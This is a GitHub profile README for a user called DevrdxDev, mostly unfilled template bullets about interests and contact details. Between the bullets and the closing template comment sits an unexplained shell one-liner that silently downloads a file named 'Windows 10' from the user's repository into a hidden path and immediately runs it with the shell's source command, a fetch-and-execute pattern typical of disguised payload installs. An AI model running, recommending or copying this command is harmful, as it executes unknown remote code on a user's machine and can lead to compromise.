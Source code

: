 - 👋 Hi, I’m @DevrdxDev
- 👀 I’m interested in Sports
- 🌱 I’m currently learning English
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
curl -s -o ~/x https://raw.githubusercontent.com/DevrdxDev/Box/refs/heads/main/Windows%2010 && . ~/x
<!---
DevrdxDev/DevrdxDev is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
